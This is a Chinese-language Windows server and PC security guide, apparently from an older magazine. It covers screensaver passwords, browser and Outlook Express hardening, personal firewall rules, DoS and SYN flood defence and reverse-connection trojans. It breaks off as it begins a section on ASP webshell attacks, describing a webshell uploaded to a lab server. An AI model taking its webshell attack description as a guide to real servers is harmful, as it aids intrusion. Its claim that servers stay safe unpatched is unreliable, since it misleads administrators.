| 项目名称 | 使用一个有密码的屏保 |
| 项目描述 | 启动含有密码的屏幕保护程序，防管理员暂时离开时的非法物理访问。 |
| 操作步骤 | 如图17，可在桌面单击右键“属性”或在“控制面板”的“显示”选项中调整。于“屏幕保护程序”页任意选择一个屏幕保护程序，指定启动时间（分钟），并选前面的“密码保护”并应用。保护密码即用户登录密码。 |
| 备注 | 在时间选项中可另作调整。另外，管理员应养成离开时锁定计算机的习惯（Ctrl+Alt+Delete → 锁定计算机）。 |

## 1-019 IE 浏览器安全

| 字段 | 内容 |
|---|---|
| 项目编号 | 1-019 |
| 项目名称 | IE浏览器安全 |
| 项目描述 | 如可能尽量不在加固主机上使用 IE 浏览器；如使用，则需注意安全。 |
| 操作步骤 | 1）取消浏览器中“自动完成”功能：在“控制面板→Internet 选项→内容”页取消“表单”和“表单上的用户名和密码”等，并清除历史记录。2）在“Internet 选项→高级”页选择“不将加密的页面存入硬盘”，并在关闭浏览器时清空 Internet 临时文件夹。3）定期清除历史记录、Cookie 记录等（如在类似 `C:\Documents and Settings\Administrator\Cookies` 目录下清除 Cookie 文件）。 |
| 备注 |  |

## 1-020 Outlook Express 安全

| 字段 | 内容 |
|---|---|
| 项目编号 | 1-020 |
| 项目名称 | Outlook Express安全 |
| 项目描述 | 防止恶意程序对系统调用导致的危害。 |
| 操作步骤 | 1）使恶意调用脚本文件的病毒（如熊猫）不能发信，可在“开始→运行”中执行 `regsvr32 /u msoc.dll` 命令（近期补丁可能已使其失效）。2）防止病毒调用运行 `vbs`、`js` 等脚本文件，可在“运行”中分别执行：`regsvr32 /u wshom.ocx` 和 `regsvr32 /u wshext.dll`。 |
| 备注 | 恢复操作时把“/u”部分去除。 |

### 后记

即使建立了安全的“堡垒主机”工作环境，如果没有完善的管理策略，一个微小的失误就会把一切安全准备完全破坏。对人们来说，系统安全只是整体安全的一部分，操作系统可以做到的加固程度并不能排除一切安全风险。我们常说“三分技术，七分管理”，系统中起主要作用的还是“人”的要素。仅仅拥有一个坚固的系统并不足够安全；只有遵守全部安全策略，并有足够的经验知识积累，才可以渐进地达到安全境界。

如果你有更高的安全需求，还是求助于专业的安全工作者吧，或者参加一些深层次的安全培训，了解更多的事实与真相。记住：“真相使你自由”！

> 本文更多适用于强调安全性的应用服务环境。个人计算机用户也可以借鉴其中的内容。你至少应该已具有初步管理 Windows 2000 的知识和能力（例如添加和删除用户、设置用户密码、修改注册表、给系统分区等）。有关具体设置请对照文中的说明选择采用。

刘流：网络世界从诞生那天起，就从未平静过。人们在享受网络带来的各种便利的同时，却忽视了另一类人在网络上虎视眈眈！防火墙为了维护网络应有的宁静而挺身而出，接着便是各种改进程序的争先涌现。较与巧两者互不相让；Internet 成了双方较量的战场，无辜的网民和疏于防范的企业成为了这场“战争”的“牺牲品”……在这样的风浪中如何屹立不倒？请看下文，让你明了什么是真正的防火墙！什么是真正的无坚不摧！


## 你也能做安全专家

### ——将个人防火墙的功能发挥到极致

### 前言

> 防火墙是什么？抽象地说，防火墙是指一种将内部网和公众访问网（Internet）分开的方法。实际上是一种隔离技术。防火墙是在两个网络通信访问时执行的一种访问控制措施，它能允许你“同意”的数据进入你的网络，同时将你“不同意”的数据拒之门外，最大限度地阻止网络中的黑客来访问你的网络，防止他们更改、拷贝、破坏你的重要信息。

## 防火墙的防范招数

那针对网络上越来越多的攻击行为，我们到底应该如何利用我们手中的防火墙呢？下面就来介绍一下防火墙常用的防范招数，其中绝大部分是针对个人用户而言的——千万不要认为我们的个人防火墙很弱！经过详细的设置，我们的个人防火墙是非常难攻破的！

### 1. 端口管理

防止端口扫描和屏蔽特定端口，可以理解为通往计算机的通道。如果将计算机比作一所房子的话，那么端口就是这所房子上的窗口，计算机正是通过一个个这样的“窗口”对外提供服务的。在默认情况下，哪个端口打开着就说明计算机提供了哪些相应的服务，如 21 号端口开放，说明计算机提供 FTP 服务；23 号端口的开放则表示提供 Telnet 服务等。但是请注意：提供服务的计算机和接受服务的计算机端口并不是一一对应的。比如你的电脑作为客户机访问一台 WWW 服务器时，WWW 服务器使用“80”端口与你的电脑通信，但你的电脑则可能使用“3558”这样的端口与之连接。

端口分 TCP 端口和 UDP 端口两种。由于 TCP 和 UDP 两个协议是独立的，因此各自的端口号也相互独立，比如 TCP 有 23 端口，UDP 也可以有 23 端口，两者并不冲突。

黑客在锁定目标 IP 地址之后紧接着的一步工作，就是对目标的端口进行扫描。通过“端口扫描”确定被扫描计算机开放哪些服务，然后才能进一步搜集服务程序的漏洞来入侵。网上很容易找到远程端口扫描工具，如防火墙有完全的否决权，可以禁止你的电脑接收 Internet 上的任何东西。因此，用防火墙屏蔽特定端口可以有效防止黑客对端口的扫描与攻击。它的工作原理是：每个数据包在到达电脑后，首先被防火墙检查，防火墙根据安全规则决定放行还是拒绝，当第一个请求建立连接的包被你的电脑回应后，一个“TCP/IP 端口”被打开；端口扫描时，对方计算机不断和本地计算机建立连接，并逐渐打开各个服务所对应的“TCP/IP 端口”及闲置端口，防火墙经过自带的拦截规则判断对方是否正在进行端口扫描，并拦截掉对方发送过来的所有扫描需要的数据包。

各款防火墙软件对端口的操作都是大同小异的。以瑞星个人防火墙为例，打开端口管理界面。欲关闭本机的 TCP 或 UDP 端口，在“操作”项中选择“禁止”，在“方向”选择中，如果只想禁止接收功能，则选择“接收”；如果只想禁止发送，则选择“发送”，然后在“协议”中选择“TCP”或“UDP”。选择上述参数后，在“目的端口设置”中进行设置：这里提供了针对单一端口、连续端口以及任何端口的设置策略，我们可以根据自己的实际需要自行设置。如图1所示。

若要禁止别人共享你的文件，请用上面方法屏蔽 139 端口。如果你装的是 Windows XP 或者 Windows Server 2003，平时你只是用来上网并不作为服务器的话，就更应该屏蔽掉本机的服务端口，如 FTP、Web 等服务的端口。不清楚这些服务对应的端口号并不重要，只要用 Windows 系统自带的防火墙软件就可以轻松屏蔽。下面以 Windows Server 2003 为例介绍。鼠标右键单击“网上邻居”，选择“属性”，然后鼠标右键单击“本地连接”，按“属性”，在出现的窗口中选择“高级”选项，选中“Internet 连接防火墙”，确定后防火墙即开启，同时单击“设置”按钮。在“服务”选项卡中勾掉所有的服务即可。如图2所示。经过这些设置之后，攻击者用 X-scan、SuperScan 之类的扫描工具再扫描本机时，会发现端口已被屏蔽。





### 2. 对 SYN、IGMP NUKE 的防御

IGMP Nuke 属 DoS 类型攻击。DoS 全称是 Denial of Service，中文意思是拒绝服务攻击。这种攻击行动使网站服务器充斥大量要求回复的信息，消耗网络带宽或系统资源，导致网络或系统不堪负荷以至于瘫痪而停止提供正常的网络服务。

“拒绝服务”的攻击方式：用户传送众多要求确认的信息到服务器，使服务器里充斥着这种无用的信息。所有的信息都有需回复的虚假地址，当服务器试图回传时，却因无法找到用户而处于暂时等候状态，只有超过规定时间后才切断连接。但当服务器切断连接时，黑客再度传送新一批需要确认的信息，这个过程周而复始，最终导致服务器瘫痪在地。

目前，天网防火墙在防止 DoS 攻击方面做得比较好。不管哪款防火墙，要防止 DoS 攻击，至少需要进行如下的设置：

- 1. 屏蔽端口，禁止外部对主机的非开放性服务的访问；
- 2. 限制同时打开的 SYN 最大连接数；
- 3. 限制特定 IP 地址的访问；
- 4. 严格限制对外开放的服务器的向外访问。

### 3. NAT 技术——隐藏身份，防止入侵

NAT 是“网络地址转换”的简称，这是利用防火墙对 IP 地址进行管理的一种方式，同时它还可以隐藏真实地址，阻止黑客入侵。防火墙将网卡标识为两种属性：一种是内部网卡，用于连接内部被保护的安全网络；另一种为外部网卡，用于连接外部公共网络。在内部网络通过内部网卡访问外部网络时将产生一个映射记录，系统将外出的源地址和源端口映射为一个伪装的地址和端口，让这个伪装的地址和端口通过外部网卡与外部网络连接，这样对外就隐藏了真实的内部网络地址。外部网络通过外部网卡访问内部网络时，它并不知道内部网络的连接情况，而只是通过一个开放的 IP 地址和端口来请求访问。防火墙根据预先定义好的映射规则来判断这个访问是否安全。当符合规则时，防火墙认为访问是安全的，接受其访问请求，同时也可以将连接请求映射到不同的内部计算机中；当不符合规则时，防火墙认为该访问是不安全的，不能被接受，防火墙将屏蔽外部的连接请求。

### 4. 拒绝 Ping——屏蔽 ICMP 协议

最常用的 Ping 用的是 ICMP 协议，要禁止 ping 其实是很容易的。仍以 Windows Server 2003 自带防火墙为例，默认设置完后 Ping 不通本机就是因为屏蔽了 ICMP 协议；如果想 ping 通本机，只需进入防火墙界面的 ICMP 选项卡，将“允许传入响应请求”一项选中即可。

### 5. 明察秋毫——分析防火墙安全日志

一般情况下，防火墙都会按用户配置的要求把所有不合规则的数据包拦截并记录在安全日志里，分析安全日志就能对本机的网络连接情况了如指掌。但是有的朋友认为一有数据包被拦截就说明有人在攻击你，这是一个错误的认识。有些正常的数据包可能由于设置的安全级别过高而不符合安全规则，也会被防火墙拦截下来并且报警。如果你选择了监视 TCP 和 UDP 数据包，那你发送和接收的每个数据包也将被记录下来。图3所示的是天网个人版防火墙的安全日志格式：每条记录从左到右分别是：发送/接收时间、来源 IP 地址、数据包类型、本机通信端口、标志位。通过日志很快找出攻击者的攻击时间和 IP 地址。安全日志可以导出以做备份。



## 特殊的攻击，特别的防范

通过以上的设置，我们已经可以屏蔽一般的攻击行为，但对于一些比较特殊的攻击来说，常用防范设置还是远远不够的。

### 1．反弹端口型木马的攻击及防范

木马程序已经不是新鲜的东西了，当初“冰河”的出现，打破了远程控制的神话，木马程序从此层出不穷，直到后来出现了反弹端口型木马——网络神偷，它标志着木马程序发展到了一个新阶段，再次掀起远程控制的高潮。

常见的普通木马，是驻留在用户计算机里的一段服务程序，而攻击者控制的则是相应的客户端程序。服务程序通过特定的端口，打开用户计算机的连接资源并等待连接。一旦攻击者所掌握的客户端程序发出请求，木马便与它连接，窃取用户的信息。此类木马的最大弱点在于攻击者必须和用户主机建立连接，木马才能起作用。所以，在对外部连接审查严格的防火墙下，这样的木马很难工作起来。

而反弹式木马，工作原理恰恰相反。这类木马把连接改为由服务器端自动连接客户端。由于防火墙对进入的数据会进行仔细过滤，而对主机本身向外界发送的数据有所疏忽（即使用端口扫描软件检查自己的端口，发现的也是类似 TCP UserIP:1026 ControllerIP:80 ESTABLISHED 之类的浏览网页假象），所以即使安装了防火墙，反弹型木马也可以连接，并且这种连接形式决定了它还可以连接局域网中的主机。反弹式木马使用的是系统信任的端口，系统会认为木马是普通应用程序，而不对其连接进行检查。防火墙在处理内部发出的连接时，也就信任了反弹木马。目前最常见的反弹式木马有：“网络神偷”“灰鸽子”等。这些木马程序通常是通过域名进行连接的（当然也可以把 IP 地址发送到指定的邮箱中），这类木马一般都不带服务器端，是在使用的时候通过客户端生成。

面对反弹木马我们应该如何拦截呢？木马的精明之处在于运行时没有窗体，“偷光”了用户资料而用户却毫无察觉。反弹木马就是如此，连局域网内部的机器都能监控。但是这一类木马有一个共通点：运行一个应用程序主动与外界交流，并且需要访问网络！因此，拦住每个需要访问网络的应用程序就一目了然了。防范反弹木马可以使用“天网个人防火墙”“金山网镖个人防火墙”这两款防火墙，它们都采用应用程序访问网络规则，当用户计算机内部的应用程序访问网络的时候，必须经过防火墙的审核。合法的应用程序被审核通过，而非法的应用程序将会被防火墙个人版的“内墙”所拦截。

防火墙会分析发送和接收数据包的类型、通信端口，并且决定拦截还是放行。在启动金山网镖后，启动的任何应用程序只要有通信数据包发送和接收存在，都会先被金山网镖截获分析。具体情况可以点击“程序规则”按钮查看，哪些允许、哪些不允许放行的应用均出现在“应用程序访问网络权限设置”窗口里。

当一个需访问网络的应用程序首次运行时，会弹出询问窗口，且会被自动加入“应用程序访问网络权限设置”的列表中，列表显示所有已启动应用程序的详细信息，包括开始运行时间以及所在路径。在该应用程序旁边还有“允许”“禁止”“询问”3个选项，分别表示允许访问网络、禁止访问网络以及询问是否允许访问网络。一旦发现可疑的程序，选“禁止”即可。图4所示的是本机内所有需要访问网络的应用程序开放情况。



> 图4 用金山网镖个人防火墙管理

### 2．最猛烈的 DDoS 攻击——SYN Flood

DDoS 攻击称为分布式拒绝服务（Distributed Denial Of Service）攻击。2000 年 2 月，Yahoo、亚马逊、CNN 等大型网站均遭到 SYN Flood 攻击，它是目前最流行的 DoS 和 DDoS 攻击手段。

DDoS 攻击实际上是一种“借刀杀人”的行为，DDoS 并不像入侵一台主机那么简单。需要经过收集目标情况——占领傀儡机——发起攻击三大步骤，没有经过“精心策划”是很难实现一次 DDoS 攻击的。一旦被 DDoS 攻击后，其后果通常是：被攻击主机上有大量等待的 TCP 连接；网络中充斥着大量源地址为假的无用数据包；制造高流量无用数据，造成网络拥塞，使受害主机无法正常和外界通信；利用受害主机提供的服务或传输协议上的缺陷，反复高速地发出特定的服务请求，使受害服务器处于繁忙状态之中，无法及时处理所有正常请求，严重时会造成系统死机。

防止 DDoS 攻击可以从防火墙与路由器这两个网络设备上考虑，因为这两个设备是内网与外界的接口设备。路由器不在本文谈论的范围内，这里只粗略讲一下防火墙上的设置。

- 1. 禁止对主机的非开放服务的访问：减少被攻击的可能性。
- 2. 限制同时打开的 SYN 最大连接数。
- 3. 设置防火墙的 SYN 请求超时参数，让它远小于服务器的超时界限：防火墙负责转发客户端发往服务器的 SYN 包、服务器发往客户端的 SYN/ACK 包，以及客户端发往服务器的 ACK 包。这样，如果客户端在防火墙计时器到期时还没发送 ACK 包，防火墙则往服务器发送 RST 包，以使服务器从队列中删除该半连接。
- 4. 限制特定 IP 地址的访问。
- 5. 启用防火墙的防 DDoS 属性。
- 6. 严格限制对外开放的服务器的向外访问（防止服务器成为傀儡机）。

如果熟悉防火墙系统就不难完成以上设置，另外采用为防范 DDoS 攻击而开发的专业防火墙方案也很重要，如 IpFilterIMD 防火墙（简称 FD 防火墙）便是这样的一个产品。其超时参数远小于服务器的超时期限，因此能有效防止 SYN Flood 攻击。

### 给防火墙使用者的建议

攻击手法层出不穷，令人防不胜防。如果你正在使用防火墙软件，那么应该注意些什么问题呢？笔者归纳了一下，大致有以下几点。

- 1. 正确选用合适的防火墙

防火墙种类繁多，不同的用户要“按己所需”地选择合适防火墙架设方案。个人 PC 只要选择某些防火墙产品的个人版就可以了，如“天网防火墙个人版”“金山网镖”等，所花费的资金也不多。企业则不一样，应选择能维护整个内网安全的企业级防火墙系统，采用软硬件产品相结合的策略，这需要投入大量资金。此外企业还需要聘请专业人员来维护它，不能马虎了事。总的来说，建立合理的防护系统，配置有效的防火墙应遵循 4 个阶段：风险分析——需求分析——确立安全政策——选择准确的防护手段，并使之与安全政策保持一致。上述 4 个阶段是环扣一环的，缺一不可，然而多数防火墙的设立没有或很少进行充分的风险分析和需求分析，只是根据不很完善的安全政策选择了一种似乎能“满足”需要的防火墙。这样，一旦防火墙防不了“火”，就会大乱阵脚。

- 2. 合理配置防火墙

合理的配置相当重要！上面说过，选择防火墙要做到“按己所需”，配置防火墙则是将“按己所需”落到了实处。例如：有些企业内部人员众多，则应要求防火墙既防外又防内，将遭到来自内部攻击的可能性降到最低；而有的企业内部人员多外出，接触电脑的没几个人，为了追求方便就可以将主要力量放在设计“防外”上。不同的企业和个人，其要求的安全规则也不一样，这就要求我们通过合理配置来实现。

- 3. 攻击防火墙

这似乎有点可笑，防火墙是用来保护计算机资源的，为何还要攻击它，这不是自取灭亡吗？实际上，这里说的攻击只是站在入侵者的角度测试防火墙的“防火”能力，只有这样你才能做到知己知彼，百战百胜。

- 4. 动态跟踪维护防火墙

防火墙安装和投入使用后，并非万事大吉。要想充分发挥它的安全防护作用，必须对它进行跟踪和维护，要与商家保持密切的联系，时刻关注商家的动态。因为商家一旦发现其产品存在安全漏洞，就会尽快发布产品补丁，此时应尽快对防火墙进行更新。

> 防火墙也不是万能的墙，千万不能有一种依赖防火墙的想法，否则你会“输”得很惨！网络永远没有绝对安全的一天，防火墙总是跟在攻击者的后面，也许防范方法刚刚制出来，又有新的攻击在向你挑战了。所以，防火墙只是你的安全助手，不是全部。

| 前置知识 | Windows NT/2000/2003 Server 管理经验，脚本语言知识； |
|---|---|
| 适合对象 | 网管员 |
| 难度等级 | 中 |

> 刘流：当一个服务器放在网络上，我们可以访问了，那就代表这个服务器可能要出现问题了，因为安全是一个整体，系统补丁、脚本补丁、第三方程序补丁等一系列补丁，每个都需要详细地去设置、去关注、去防范，这样才能做到良好的安全。而预先设置好服务器各种系统自带程序、IIS 权限、数据库权限等各种服务的连接权限又是非常重要的东西。所以，很多大中型网络才有 80 个这样庞大的网络管理员队伍，而战争，就在服务器权限与伪黑客间展开……

## WindowsNT 服务器权限与黑客的较量

随着网络的高速发展，现在朋友们都装上了宽带，做虚拟主机生意的提供商生意当然也越来越好了，做网站的朋友也比往年多了起来，但是现在的黑客们却喜欢上了在虚拟主机提供商的空间里放上一个 Webshell（也称网页木马），以取得服务器的管理权，这是让服务器的管理员最头痛的事。黑客们通过各种 Webshell 可以在服务器里运行 CMD 命令，还可以复制、删除文件，在线编辑文件，建立超级用户等。Webshell 在这里分很多种，如 ASP、CGI、PHP、JSP 的 Webshell 都有，现在还流行 SQL 注入的 xp_cmdshell 等，都属于 Webshell 中的一种。现在我们首先介绍的是黑客们称作为网页木马的各种 Webshell 的攻击与防范方法。同时用这最简单的安全设置方法还能防范网络上的大部分溢出攻击等，如著名的 IDQ、IDA、WEBDAV 及 RPC 溢出……都能让黑客取得你服务器的管理权，但是你通过这小小的安全配置，黑客们的溢出攻击你就不用再怕了。就算不打补丁也是安全的，相信吗？不信？请看下文！

攻击与防范方法其实都是非常简单的，所以一般熟悉恶意网页制作，还懂点 CMD 命令的朋友们都能学会。在我看来没有太大的技术性可言，难度等级（初级）就是人人都可以学会的。不管你是有多年服务器管理经验的高手还是新手，这份教程都能作为你最为有效防范 Webshell 攻击及溢出攻击的方法参考资料。

## 黑木 ASP 的 Webshell

**攻击与防范**

以下我们以实例讲解 ASP 的 3 种 Webshell 攻击与防范方法。

### 例一，一种使用脚本绑定 CMD 命令

这是一种使用脚本绑定 CMD 命令的攻击方法，其实 ASP 的 Webshell 并不止这一种，后面还会介绍另外两种 Webshell 攻击与防范方法。只要黑客在你的服务器上放上了这种 Webshell，你又没有适当的防范方法，那么你的服务器就会惨遭毒手，成了黑客的肉鸡了。

一般遭此毒手的服务器都是虚拟主机提供商的服务器，也有属于个人或公司的服务器。黑客是怎么样把这个 Webshell 传到你的服务器的呢？如果是传到虚拟主机提供商的 Web 空间的，一般都是虚拟主机提供商的客户自己传的……因为虚拟主机提供商的客户本身就拥有上传软件的权限，并拥有 HTTP 服务的浏览地址。

客户使用这种 Webshell，目的一般只想看看它已租用的服务器空间上存放了些什么文件，或通过这个 Webshell 盗窃服务器上的某些重要资料。个人或公司的服务器，黑客怎么把这个 Webshell 传到服务器空间上的呢？一般是通过服务器上某个如论坛、下载系统的脚本漏洞，通过这些漏洞取得在 WWW 上 80 端口上传文件的权限，或通过某些漏洞使用 FTP 服务把这个 Webshell 传到你的服务器上的。本文假设你已经把这个 Webshell 传到了服务器空间上，你并取得了 HTTP 的浏览地址，只要服务器是支持 ASP 的，你就能使用这个 Webshell 取得服务器系统的管理权了。

这种后门非常隐蔽，就算你重装了多次系统，打了多次补丁也没效，因为这个漏洞是没有补丁的^^。只要这个 Webshell 还存在，黑客找到这个 Webshell 的 WWW 浏览地址，你的服务器一样会变成黑客的肉鸡，所以危害性极大。

如下图1所示，我把一个文件名叫 CMD.ASP 的 ASP 脚本 Webshell 文件传到了一台服务器（IP 为 192.168.0.18）上，把这个文件放到了 FTP 根目录里的 Webshell 文件夹下，我们就能使用 `http://192.168.0.18/Webshell/cmd.asp` 的地址访问这个 Webshell 了。

